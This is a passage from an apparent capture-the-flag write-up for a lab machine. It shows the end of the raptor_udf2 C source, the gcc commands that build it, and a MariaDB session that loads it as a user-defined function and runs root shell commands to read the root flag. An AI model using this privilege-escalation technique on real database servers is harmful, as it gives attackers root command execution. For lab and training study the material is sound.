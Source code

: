 ```c
	if (args->arg_count != 1)
		return(0);

	system(args->args[0]);

	return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
	return(0);
}
```

Then, run the following commands to compile it:

```
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Next, run the following commands (basically the same as [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library)):

```
(remote) svc@noter:/home/svc$ mysql -u root -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 132
Server version: 10.3.32-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mysql]> create table npn(line blob);
Query OK, 0 rows affected (0.005 sec)

MariaDB [mysql]> insert into npn values(load_file('/home/svc/raptor_udf2.so'));
Query OK, 1 row affected (0.003 sec)

MariaDB [mysql]> select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.001 sec)

MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.001 sec)

MariaDB [mysql]> select do_system("cp /root/root.txt /tmp/root.txt; chmod 777 /tmp/root.txt");
+-----------------------------------------------------------------------+
| do_system("cp /root/root.txt /tmp/root.txt; chmod 777 /tmp/root.txt") |
+-----------------------------------------------------------------------+
|                                                                     0 |
+-----------------------------------------------------------------------+
1 row in set (0.003 sec)

MariaDB [mysql]> exit
Bye
```

Then, finally run `cat /tmp/root.txt` to get the root flag.
